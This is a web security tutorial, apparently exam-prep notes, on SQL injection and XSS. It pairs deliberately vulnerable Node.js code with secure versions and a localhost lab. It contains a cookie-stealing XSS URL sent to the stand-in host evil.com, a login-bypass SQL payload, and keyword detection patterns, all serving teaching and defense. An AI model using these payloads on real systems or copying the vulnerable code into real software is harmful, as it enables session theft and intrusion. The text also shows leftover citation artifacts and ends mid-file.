




---
tags: [vulnerability, web]
---
# 🛡️ Full-Stack Lesson: Web Application Attacks (SQL Injection & XSS)

## TCM Exam Objectives

- Distinguish in-band, blind (boolean/time-based), and out-of-band SQL injection
- Distinguish reflected, stored, DOM-based, and blind XSS by persistence and execution context
- Explain parameterized queries (prepared statements) as the primary defense against SQLi
- Implement context-aware output encoding and Content Security Policy (CSP) for XSS prevention
- Map SQLi and XSS to OWASP Top 10 categories (A03:2021 Injection)
- Build a secure authentication and search endpoint with layered defenses

# 🛡️ Full-Stack Lesson: Web Application Attacks (SQL Injection & XSS)

## 📚 1. Introduction to Web Application Attacks

Web application attacks exploit vulnerabilities in applications that are accessible via web browsers. These attacks target the application layer (Layer 7) of the OSI model and can compromise data integrity, confidentiality, and availability. The **OWASP Top 10** (Open Web Application Security Project) represents a broad consensus about the most critical security risks to web applications, with **Injection** (including SQL Injection) and **Cross-Site Scripting (XSS)** consistently ranking among the top threats 【turn0search10】【turn0search12】.

> 💡 **Key Insight**: According to OWASP, injection flaws have been a persistent threat for years, and XSS is found in around two-thirds of all applications 【turn0search7】【turn0search10】. Understanding these attacks is crucial for developers and security professionals alike.

## 🏗️ 2. Understanding the Full-Stack Attack Surface

Modern web applications have a complex architecture with multiple layers where vulnerabilities can exist:



## 💉 3. SQL Injection (SQLi) Deep Dive

### 3.1 What is SQL Injection?
SQL Injection is a code injection technique that exploits vulnerabilities in an application's software by inserting or "injecting" malicious SQL statements into an entry field for execution 【turn0search13】. This allows attackers to view, modify, or delete data they shouldn't have access to, potentially gaining administrative access to the database.

📌 **Exam Tip:** Know the three SQLi types: In-Band (same channel for attack and results — most common), Blind (boolean or time-based true/false questions), Out-of-Band (different channel like DNS/HTTP). In-Band is the easiest to exploit; Blind is slower but still dangerous.

### 3.2 Types of SQL Injection

| Type | Description | Impact | Example Scenario |
|------|-------------|---------|------------------|
| **In-Band SQLi** | Uses same channel for attack and results | Data exfiltration, authentication bypass | Login form where attacker extracts all user data |
| **Blind SQLi** | Asks database true/false questions | Data extraction through boolean responses | Checking if a user ID exists in database |
| **Time-Based Blind SQLi** | Uses database delays to infer data | Data extraction through timing differences | If condition true, sleep 5 seconds |
| **Out-of-Band SQLi** | Uses different channel for results | Data exfiltration via DNS/HTTP requests | Sending data to attacker-controlled server |

### 3.3 How SQL Injection Works

#### Vulnerable Code Example (Node.js):
```javascript
// VULNERABLE CODE - DO NOT USE IN PRODUCTION
app.post('/login', (req, res) => {
  const username = req.body.username;
  const password = req.body.password;
  
  const query = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;
  
  db.query(query, (err, results) => {
    if (results.length > 0) {
      res.send('Login successful');
    } else {
      res.send('Invalid credentials');
    }
  });
});
```

#### Attack Scenario:
An attacker enters the following as the username:
```sql
admin' OR '1'='1
```

This changes the query to:
```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = ''
```

Since `'1'='1'` is always true, this returns all users, allowing the attacker to bypass authentication.

### 3.4 SQL Injection Impact
- **Data Breach**: Attackers can extract sensitive information like credentials, personal data, and financial information 【turn0search7】
- **Data Manipulation**: Attackers can alter, delete, or insert unauthorized data 【turn0search7】
- **System Takeover**: In severe cases, attackers might gain administrative access to the database server 【turn0search7】
- **Authentication Bypass**: Attackers can log in as any user without knowing the password
- **Information Gathering**: Attackers can enumerate database structure and contents

### 3.5 SQL Injection Prevention Techniques

#### 1. **Parameterized Queries (Prepared Statements)**
This is the most effective way to prevent SQL injection. It separates SQL code from data, ensuring that user input is treated as data, not executable code.

```javascript
// SECURE CODE using parameterized query
app.post('/login', (req, res) => {
  const username = req.body.username;
  const password = req.body.password;
  
  const query = 'SELECT * FROM users WHERE username = ? AND password = ?';
  
  db.query(query, [username, password], (err, results) => {
    // Handle results securely
  });
});
```

#### 2. **Stored Procedures**
Use stored procedures with parameterized inputs. They encapsulate SQL logic and can provide an additional layer of security.

#### 3. **Input Validation and Sanitization**
- **Whitelist Validation**: Only allow expected characters and formats
- **Blacklist Filtering**: Block known malicious patterns (less effective)
- **Escape Special Characters**: Use database-specific escape functions

#### 4. **Principle of Least Privilege**
- Run database with minimal permissions needed
- Don't use `sa` or `root` account for application connections
- Restrict access to specific tables/columns

#### 5. **Web Application Firewall (WAF)**
Can detect and block malicious SQL patterns, but should not be the only defense mechanism.

<details>
<summary>🔧 Technical Implementation: Secure Database Layer</summary>

```javascript
// database.js - Secure database configuration
const sqlite3 = require('sqlite3').verbose();
const db = new sqlite3.Database(':memory:');

// Initialize with secure settings
db.serialize(() => {
  // Enable foreign keys for referential integrity
  db.run('PRAGMA foreign_keys = ON');
  
  // Create users table with constraints
  db.run(`CREATE TABLE IF NOT EXISTS users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT UNIQUE NOT NULL,
    password_hash TEXT NOT NULL,
    email TEXT UNIQUE NOT NULL,
    created_at DATETIME DEFAULT CURRENT_TIMESTAMP,
    CONSTRAINT username_length CHECK (length(username) >= 3)
  )`);
  
  // Create indexes for performance and security
  db.run('CREATE INDEX IF NOT EXISTS idx_username ON users(username)');
});

module.exports = db;
```

```javascript
// auth.js - Secure authentication implementation
const bcrypt = require('bcrypt');
const db = require('./database');

async function authenticateUser(username, password) {
  try {
    // Use parameterized query
    const user = await db.get(
      'SELECT id, username, password_hash FROM users WHERE username = ?',
      [username]
    );
    
    if (!user) {
      // Use generic error message
      throw new Error('Invalid credentials');
    }
    
    // Verify password hash
    const validPassword = await bcrypt.compare(password, user.password_hash);
    if (!validPassword) {
      throw new Error('Invalid credentials');
    }
    
    // Return user without sensitive data
    const { password_hash, ...userWithoutPassword } = user;
    return userWithoutPassword;
  } catch (error) {
    // Log security events
    console.error('Authentication failed:', error.message);
    throw new Error('Authentication failed');
  }
}
```
</details>

## 🎭 4. Cross-Site Scripting (XSS) Deep Dive

### 4.1 What is Cross-Site Scripting?
Cross-Site Scripting (XSS) attacks are a type of injection where malicious scripts are injected into otherwise benign and trusted websites 【turn0search5】. XSS occurs when an application uses untrusted input in web pages without proper validation or escaping, allowing attackers to execute malicious scripts in the victim's browser.

📌 **Exam Tip:** XSS types: Reflected (non-persistent, delivered via link), Stored (persistent, stored in database — most dangerous), DOM-based (client-side only, never reaches server). The exam often asks "which XSS type is most dangerous?" Answer: Stored XSS, because it affects every user who views the page.



### 4.2 Types of XSS Attacks

| Type | Description | Persistence | Example |
|------|-------------|-------------|---------|
| **Reflected XSS** | Injected script is reflected off web server in response | Non-persistent (single request/response) | Malicious link in email/message |
| **Stored XSS** | Script is permanently stored on target server | Persistent (stored in database) | Malicious comment in forum |
| **DOM-based XSS** | Vulnerability exists in client-side code, not server | Varies | URL fragment modification |
| **Blind XSS** | Special case of stored XSS where payload executes later | Persistent | Malicious feedback to admin panel |

### 4.3 How XSS Works

#### Vulnerable Code Example:
```javascript
// VULNERABLE CODE - DO NOT USE
app.get('/search', (req, res) => {
  const searchTerm = req.query.q;
  res.send(`
    <h1>Search Results for: ${searchTerm}</h1>
    <p>No results found for your search.</p>
  `);
});
```

#### Attack Scenario:
An attacker crafts a malicious URL like:
```
https://example.com/search?q=<script>document.location='http://evil.com/?cookie='+document.cookie</script>
```

When a victim clicks this link, the script executes in their browser, stealing their session cookies.

### 4.4 XSS Impact
- **Session Hijacking**: Attackers can steal user session tokens 【turn0search7】
- **Malware Distribution**: Inject scripts that infect visitors with malware 【turn0search7】
- **Phishing**: Inject convincing phishing forms into trusted website 【turn0search7】
- **Website Defacement**: Modify page content to display malicious content
- **Credential Theft**: Capture login credentials through injected forms

### 4.5 XSS Prevention Techniques

#### 1. **Context-Aware Output Encoding**
Different contexts require different encoding strategies:

```javascript
// SECURE CODE with proper encoding
const escapeHtml = (str) => {
  return str.replace(/[&<>'"]/g, 
    tag => ({
      '&': '&amp;',
      '<': '&lt;',
      '>': '&gt;',
      "'": '&#39;',
      '"': '&quot;'
    }[tag] || tag)
  );
};

app.get('/search', (req, res) => {
  const searchTerm = req.query.q;
  const safeSearchTerm = escapeHtml(searchTerm);
  
  res.send(`
    <h1>Search Results for: ${safeSearchTerm}</h1>
    <p>No results found for your search.</p>
  `);
});
```

#### 2. **Content Security Policy (CSP)**
A HTTP header that allows site administrators to declare approved sources of content that the browser may load.

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://trustedscripts.example.com; style-src 'self' https://trustedstyles.example.com; img-src 'self' data:; object-src 'none'; frame-ancestors 'none'; base-uri 'self'; form-action 'self';
```

#### 3. **Cookie Security**
- Set `HttpOnly` flag to prevent JavaScript access to cookies
- Use `Secure` flag to ensure cookies are only sent over HTTPS
- Implement `SameSite` attribute to prevent CSRF

#### 4. **Framework Security Features**
Modern frameworks like React, Vue, and Angular automatically escape values to prevent XSS by default 【turn0search10】.

<details>
<summary>⚙️ Advanced XSS Prevention: DOMPurify for Rich Text</summary>

```javascript
// For applications that need to allow some HTML (like comments)
const DOMPurify = require('dompurify');

app.post('/comment', (req, res) => {
  const userComment = req.body.comment;
  
  // Sanitize HTML to allow only safe tags and attributes
  const cleanComment = DOMPurify.sanitize(userComment, {
    ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'ul', 'ol', 'li', 'a', 'blockquote', 'code'],
    ALLOWED_ATTR: ['href', 'title', 'target'],
    ALLOW_DATA_ATTR: false
  });
  
  // Store sanitized comment in database
  db.run(
    'INSERT INTO comments (content, user_id) VALUES (?, ?)',
    [cleanComment, req.user.id]
  );
  
  res.redirect('/comments');
});
```

```javascript
// Client-side sanitization for dynamic content
function displayUserContent(content) {
  const cleanHTML = DOMPurify.sanitize(content, {
    ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'a'],
    ALLOWED_ATTR: ['href']
  });
  
  document.getElementById('user-content').innerHTML = cleanHTML;
}
```
</details>

## ⚔️ 5. Comparative Analysis: SQLi vs XSS

| Aspect | SQL Injection | Cross-Site Scripting (XSS) |
|--------|---------------|---------------------------|
| **Primary Target** | Database Server | End-user Browser |
| **Attack Vector** | Database queries | Web page content |
| **Data Compromised** | Data at rest in database | Data in transit and user sessions |
| **Immediate Impact** | Data breach, manipulation | Session hijacking, malware distribution |
| **Detection Difficulty** | Moderate (logs can reveal) | Easy to hard (depends on type) |
| **Prevention Strategy** | Parameterized queries | Output encoding, CSP |
| **OWASP Category** | Injection (A03:2021) | Injection (A03:2021) |
| **Common Entry Points** | Login forms, search boxes, URL parameters | Comments, forums, user profiles, any user input |

## 🧪 6. Practical Lab: Vulnerable vs Secure Application

### 6.1 Setting Up a Vulnerable Demo

```bash
# Create project directory
mkdir web-security-demo
cd web-security-demo

# Initialize Node.js project
npm init -y

# Install dependencies
npm install express sqlite3 body-parser cookie-parser express-session

# Create vulnerable application
cat > app.js << 'EOF'
const express = require('express');
const sqlite3 = require('sqlite3').verbose();
const bodyParser = require('body-parser');
const cookieParser = require('cookie-parser');
const session = require('express-session');

const app = express();
const db = new sqlite3.Database(':memory:');

app.use(bodyParser.urlencoded({ extended: true }));
app.use(cookieParser());
app.use(session({
  secret: 'vulnerable-secret',
  resave: false,
  saveUninitialized: true,
  cookie: { secure: false } // Set to true in production with HTTPS
}));

// Initialize database
db.serialize(() => {
  db.run("CREATE TABLE users (id INTEGER PRIMARY KEY, username TEXT, password TEXT)");
  db.run("INSERT INTO users (username, password) VALUES ('admin', 'admin123')");
  db.run("INSERT INTO users (username, password) VALUES ('user', 'password123')");
});

// VULNERABLE LOGIN ENDPOINT
app.post('/login', (req, res) => {
  const { username, password } = req.body;
  
  // VULNERABLE: Direct string concatenation
  const query = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;
  
  db.get(query, (err, user) => {
    if (user) {
      req.session.userId = user.id;
      req.session.username = user.username;
      res.redirect('/dashboard');
    } else {
      res.send('Invalid credentials');
    }
  });
});

// VULNERABLE SEARCH ENDPOINT
app.get('/search', (req, res) => {
  const searchTerm = req.query.q || '';
  
  // VULNERABLE: Unescaped output
  res.send(`
    <h1>Search Results for: ${searchTerm}</h1>
    <p>No results found for your search.</p>
    <p>Try searching for: <a href="/search?q=test">test</a></p>
  `);
});

// DASHBOARD
app.get('/dashboard', (req, res) => {
  if (!req.session.userId) {
    return res.redirect('/');
  }
  res.send(`
    <h1>Welcome, ${req.session.username}</h1>
    <p>This is your dashboard.</p>
    <form action="/search" method="get">
      <input type="text" name="q" placeholder="Search...">
      <button type="submit">Search</button>
    </form>
    <a href="/logout">Logout</a>
  `);
});

app.listen(3000, () => {
  console.log('Vulnerable app running on http://localhost:3000');
});
EOF

node app.js
```

### 6.2 Testing the Vulnerabilities

#### SQL Injection Test:
```bash
# Start the application
node app.js

# In another terminal, test SQL injection
curl -X POST http://localhost:3000/login \
  -d "username=admin' OR '1'='1&password=anything"

# This should log you in as admin without password
```

#### XSS Test:
```bash
# Test reflected XSS
curl "http://localhost:3000/search?q=<script>alert('XSS')</script>"

# Test stored XSS (would require comment functionality)
```

### 6.3 Secure Implementation

<details>
<summary>🔐 View Secure Application Code</summary>

```javascript
// secure-app.js
const express = require('express');
const sqlite3 = require('sqlite3').verbose();
const bodyParser = require('body-parser');
const cookieParser = require('cookie-parser');
const session = require('express-session');
const helmet = require('helmet');
const rateLimit = require('express-rate-limit');

const app = express();
const db = new sqlite3.Database(':memory:');

// Security middleware
app.use(helmet());
app.use(bodyParser.urlencoded({ extended: true }));
app.use(cookieParser());

// Rate limiting
const limiter = rateLimit({
  windowMs: 15 * 60 * 1000, // 15 minutes
  max: 100 // limit each IP to 100 requests per windowMs
});
app.use(limiter);

// Session configuration
app.use(session({
  secret: process.env.SESSION_SECRET || 'secure-secret-change-in-production',
  resave: false,
  saveUninitialized: false,
  cookie: { 
    secure: process.env.NODE_ENV === 'production',
    httpOnly: true,
    sameSite: 'strict',
    maxAge: 3600000 // 1 hour
  }
}));

// Initialize database with constraints
db.serialize(() => {
  db.run(`CREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT UNIQUE NOT NULL,
    password_hash TEXT NOT NULL,
    created_at DATETIME DEFAULT CURRENT_TIMESTAMP,
    CONSTRAINT username_length CHECK (length(username) >= 3)
  )`);
  
  // Hash passwords (should be done in separate script)
  const bcrypt = require('bcrypt');
  const adminHash = bcrypt.hashSync('admin123', 10);
  const userHash = bcrypt.hashSync('password123', 10);
  
  db.run("INSERT INTO users (username, password_hash) VALUES (?, ?)", ['admin', adminHash]);
  db.run("INSERT INTO users (username, password_hash) VALUES (?, ?)", ['user', userHash]);
});

// Helper function to escape HTML
function escapeHtml(str) {
  return str.replace(/[&<>'"]/g, 
    tag => ({
      '&': '&amp;',
      '<': '&lt;',
      '>': '&gt;',
      "'": '&#39;',
      '"': '&quot;'
    }[tag] || tag)
  );
}

// SECURE LOGIN ENDPOINT
app.post('/login', (req, res) => {
  const { username, password } = req.body;
  
  // Input validation
  if (!username || !password) {
    return res.status(400).send('Username and password required');
  }
  
  // Parameterized query
  db.get(
    'SELECT * FROM users WHERE username = ?',
    [username],
    (err, user) => {
      if (err || !user) {
        // Generic error message
        return res.status(401).send('Invalid credentials');
      }
      
      // Verify password hash
      bcrypt.compare(password, user.password_hash, (err, result) => {
        if (result) {
          req.session.userId = user.id;
          req.session.username = user.username;
          res.redirect('/dashboard');
        } else {
          res.status(401).send('Invalid credentials');
        }
      });
    }
  );
});

// SECURE SEARCH ENDPOINT
app.get('/search', (req, res) => {
  const searchTerm = req.query.q || '';
  const safeSearchTerm = escapeHtml(searchTerm);
  
  res.send(`
    <h1>Search Results for: ${safeSearchTerm}</h1>
    <p>No results found for your search.</p>
    <p>Try searching for: <a href="/search?q=test">test</a></p>
  `);
});

// DASHBOARD
app.get('/dashboard', (req, res) => {
  if (!req.session.userId) {
    return res.redirect('/');
  }
  
  const safeUsername = escapeHtml(req.session.username);
  
  res.send(`
    <h1>Welcome, ${safeUsername}</h1>
    <p>This is your dashboard.</p>
    <form action="/search" method="get">
      <input type="text" name="q" placeholder="Search...">
      <button type="submit">Search</button>
    </form>
    <a href="/logout">Logout</a>
  `);
});

app.listen(3000, () => {
  console.log('Secure app running on http://localhost:3000');
});
```
</details>

## 🛡️ 7. Defense in Depth Strategy

### 7.1 Layered Security Approach



📌 **Exam Tip:** Know the specific defenses: SQLi → parameterized queries (prepared statements) are the #1 defense. XSS → context-aware output encoding is the #1 defense. CSP is a secondary/depth layer. WAF is a compensating control — never rely on WAF alone. The exam will NOT accept "input validation" as the primary SQLi defense.

### 7.2 Security Headers Implementation

```javascript
// security-headers.js
const helmet = require('helmet');

// Configure security headers
const securityHeaders = helmet({
  contentSecurityPolicy: {
    directives: {
      defaultSrc: ["'self'"],
      scriptSrc: ["'self'", "'unsafe-inline'", "https://trusted.cdn.com"],
      styleSrc: ["'self'", "'unsafe-inline'", "https://trusted.cdn.com"],
      imgSrc: ["'self'", "data:", "https:"],
      objectSrc: ["'none'"],
      frameAncestors: ["'none'"],
      formAction: ["'self'"],
      baseUri: ["'self'"],
      fontSrc: ["'self'", "https:", "data:"],
      connectSrc: ["'self'", "https://api.trusted.com"]
    }
  },
  crossOriginEmbedderPolicy: false,
  crossOriginOpenerPolicy: { policy: 'same-origin' },
  crossOriginResourcePolicy: { policy: 'same-origin' },
  dnsPrefetchControl: { allow: false },
  frameguard: { action: 'deny' },
  hidePoweredBy: true,
  hsts: {
    maxAge: 63072000, // 2 years
    includeSubDomains: true,
    preload: true
  },
  ieNoOpen: true,
  noSniff: true,
  originAgentCluster: true,
  permittedCrossDomainPolicies: { permittedPolicies: 'none' },
  referrerPolicy: { policy: 'no-referrer' },
  xssFilter: true
});

module.exports = securityHeaders;
```

### 7.3 Comprehensive Logging and Monitoring

```javascript
// logging.js
const winston = require('winston');
const { combine, timestamp, printf, colorize } = winston.format;

const logFormat = printf(({ level, message, timestamp, ...metadata }) => {
  let msg = `${timestamp} [${level}]: ${message}`;
  if (Object.keys(metadata).length > 0) {
    msg += ` ${JSON.stringify(metadata)}`;
  }
  return msg;
});

const logger = winston.createLogger({
  level: process.env.LOG_LEVEL || 'info',
  format: combine(
    colorize(),
    timestamp({ format: 'YYYY-MM-DD HH:mm:ss' }),
    logFormat
  ),
  transports: [
    new winston.transports.Console(),
    new winston.transports.File({ filename: 'logs/error.log', level: 'error' }),
    new winston.transports.File({ filename: 'logs/combined.log' })
  ]
});

// Security event logger
const securityLogger = winston.createLogger({
  level: 'warn',
  format: combine(
    timestamp({ format: 'YYYY-MM-DD HH:mm:ss' }),
    logFormat
  ),
  transports: [
    new winston.transports.File({ filename: 'logs/security.log' })
  ]
});

// Middleware to log security events
function securityLogMiddleware(req, res, next) {
  const startTime = Date.now();
  
  res.on('finish', () => {
    const duration = Date.now() - startTime;
    const logData = {
      method: req.method,
      url: req.url,
      ip: req.ip,
      userAgent: req.get('user-agent'),
      statusCode: res.statusCode,
      duration: duration,
      timestamp: new Date().toISOString()
    };
    
    // Log suspicious patterns
    if (req.url.includes('script') || req.url.includes('select') || req.url.includes('union')) {
      securityLogger.warn('Potential attack pattern detected', logData);
    }
    
    if (res.statusCode >= 400) {
      logger.error('Request error', logData);
    }
  });
  
  next();
}

module.exports = { logger, securityLogger, securityLogMiddleware };
```

## 📊 8. Vulnerability Assessment and Testing

### 8.1 Testing Methodologies

| Testing Type | Description | Tools | When to Use |
|--------------|-------------|-------|-------------|
| **Manual Testing** | Human testers manually test inputs | OWASP ZAP, Burp Suite | Final verification, complex logic |
| **Automated Scanning** | Automated tools scan for common vulnerabilities | Nessus, Acunetix, OWASP ZAP | Regular security assessments |
| **Code Review** | Manual review of source code | SonarQube, Checkmarx | Development phase |
| **Penetration Testing** | Simulated attacks by security professionals | Metasploit, custom scripts | Pre-production, compliance |
| **Fuzz Testing** | Automated random input generation | OWASP ZAP, Burp Intruder | Finding unknown vulnerabilities |

### 8.2 Security Testing Checklist

<details>
<summary>📋 View Security Testing Checklist</summary>

#### Input Validation Testing
- [ ] Test all input fields for SQL injection
- [ ] Test all input fields for XSS (reflected, stored, DOM)
- [ ] Test for command injection
- [ ] Test for LDAP injection
- [ ] Test for XPath injection
- [ ] Test for email header injection
- [ ] Test for template injection

#### Authentication Testing
- [ ] Test for default credentials
- [ ] Test for weak password policy
- [ ] Test for authentication bypass
- [ ] Test for session fixation
- [ ] Test for session timeout
- [ ] Test for multi-factor authentication bypass

#### Authorization Testing
- [ ] Test for vertical privilege escalation
- [ ] Test for horizontal privilege escalation
- [ ] Test for insecure direct object references
- [ ] Test for missing function level access control

#### Configuration Testing
- [ ] Check for default configurations
- [ ] Check for unnecessary features enabled
- [ ] Check for outdated software versions
- [ ] Check for security headers
- [ ] Check for SSL/TLS configuration
- [ ] Check for cookie security flags

#### Session Management Testing
- [ ] Test for session prediction
- [ ] Test for session fixation
- [ ] Test for session timeout
- [ ] Test for cookie attributes
- [ ] Test for cross-site request forgery (CSRF)

#### Business Logic Testing
- [ ] Test for business flow bypass
- [ ] Test for data validation
- [ ] Test for trust boundaries
- [ ] Test for transaction limits
</details>

## 🚀 9. Modern Framework Security Features

### 9.1 Framework Security Comparison

| Framework | Built-in Security Features | Configuration Required | Vulnerability History |
|-----------|---------------------------|-----------------------|----------------------|
| **React** | Auto-escaping by default | None for basic XSS | Fewer XSS vulnerabilities |
| **Angular** | Built-in sanitization | None for basic XSS | Fewer XSS vulnerabilities |
| **Vue.js** | Auto-escaping in v-text | None for basic XSS | Fewer XSS vulnerabilities |
| **Express.js** | Middleware ecosystem | Security headers, CSP | Depends on middleware |
| **Django** | CSRF protection, SQL injection protection | Configuration needed | Well-maintained |
| **Ruby on Rails** | Strong parameters, CSRF protection | Configuration needed | Well-maintained |
| **Spring Boot** | Comprehensive security module | Configuration needed | Well-maintained |

### 9.2 Implementing Security in Modern Stacks

<details>
<summary>⚙️ React + Express Security Implementation</summary>

```jsx
// React component with security best practices
import React, { useState, useEffect } from 'react';
import DOMPurify from 'dompurify';

function UserComment({ comment }) {
  const [sanitizedComment, setSanitizedComment] = useState('');
  
  useEffect(() => {
    // Sanitize HTML content before rendering
    const cleanHTML = DOMPurify.sanitize(comment, {
      ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'a', 'code'],
      ALLOWED_ATTR: ['href', 'title']
    });
    setSanitizedComment(cleanHTML);
  }, [comment]);
  
  return (
    <div className="comment">
      {/* Use dangerouslySetInnerHTML only with sanitized content */}
      <div dangerouslySetInnerHTML={{ __html: sanitizedComment }} />
    </div>
  );
}

// API endpoint with security middleware
const express = require('express');
const router = express.Router();
const rateLimit = require('express-rate-limit');
const { body, validationResult } = require('express-validator');

// Rate limiting for comment submissions
const commentLimiter = rateLimit({
  windowMs: 60 * 60 * 1000, // 1 hour
  max: 10, // Limit each IP to 10 comment submissions per hour
  message: 'Too many comments from this IP, please try again later.'
});

// Input validation middleware
const validateComment = [
  body('comment')
    .isLength({ min: 10, max: 1000 })
    .withMessage('Comment must be between 10 and 1000 characters')
    .trim()
    .escape(), // Basic escaping, additional sanitization on server
  
  body('postId')
    .isInt({ min: 1 })
    .withMessage('Invalid post ID')
];

// Secure comment submission endpoint
router.post('/comments', commentLimiter, validateComment, async (req, res) => {
  const errors = validationResult(req);
  if (!errors.isEmpty()) {
    return res.status(400).json({ errors: errors.array() });
  }
  
  try {
    const { comment, postId } = req.body;
    const userId = req.user.id;
    
    // Additional server-side sanitization
    const cleanComment = DOMPurify.sanitize(comment, {
      ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'a', 'code'],
      ALLOWED_ATTR: ['href', 'title']
    });
    
    // Store in database using parameterized query
    const result = await db.query(
      'INSERT INTO comments (content, user_id, post_id, created_at) VALUES (?, ?, ?, NOW())',
      [cleanComment, userId, postId]
    );
    
    // Log security event
    securityLogger.info('Comment submitted', {
      userId,
      postId,
      commentLength: cleanComment.length,
      ip: req.ip
    });
    
    res.status(201).json({ success: true, commentId: result.insertId });
  } catch (error) {
    logger.error('Comment submission failed', {
      error: error.message,
      userId: req.user?.id,
      ip: req.ip
    });
    res.status(500).json({ error: 'Failed to submit comment' });
  }
});
```
</details>

## 📈 10. Continuous Security Improvement

### 10.1 Security Metrics and KPIs

```mermaid
mindmap
  root((Security Metrics))
    (Prevention Metrics)
      [Vulnerability Density<br>per 1000 LOC]
      [Security Test Coverage %]
      [Mean Time to Patch (MTTP)]
      [Dependency Vulnerability Count]
    (Detection Metrics)
      [Mean Time to Detect (MTTD)]
      [False Positive Rate %]
      [Security Event Volume]
      [Anomaly Detection Rate]
    (Response Metrics)
      [Mean Time to Respond (MTTR)]
      [Mean Time to Recover (MTTR)]
      [Security Incident Cost]
      [Business Impact Duration]
    (Improvement Metrics)
      [Security Training Completion %]
      [Security Awareness Score]
      [Remediation Rate %]
      [Security Automation Level %]
```

### 10.2 Security Automation Pipeline

<details>
<summary>🔧 View Security Automation Code</summary>

```yaml
# .github/workflows/security.yml
name: Security Pipeline

on:
  push:
    branches: [ main, develop ]
  pull_request:
    branches: [ main ]
  schedule:
    - cron: '0 0 * * 0' # Weekly on Sunday

jobs:
  security-scan:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v3
    
    - name: Run npm audit
      run: npm audit --audit-level=moderate
      continue-on-error: true
    
    - name: Run SAST (SonarQube)
      uses: SonarSource/sonarqube-scan-action@master
      env:
        SONAR_TOKEN: ${{ secrets.SONAR_TOKEN }}
        SONAR_HOST_URL: ${{ secrets.SONAR_HOST_URL }}
    
    - name: Run DAST (OWASP ZAP)
      uses: zaproxy/action-baseline@v0.7.0
      with:
        target: 'http://localhost:3000'
        cmd_options: '-a -j'
    
    - name: Dependency Check
      uses: dependency-check/Dependency-Check_Action@main
      with:
        project: 'web-security-demo'
        path: '.'
        format: 'HTML'
        args: >
          --enableRetired
          --suppressNonVulnerable
    
    - name: Container Scan (if applicable)
      uses: aquasecurity/trivy-action@master
      with:
        image-ref: 'myapp:${{ github.sha }}'
        format: 'table'
        exit-code: '1'
        ignore-unfixed: true
        vuln-type: 'os,library'
        severity: 'CRITICAL,HIGH'
    
    - name: License Check
      run: |
        npm install -g license-checker
        license-checker --summary --json > licenses.json
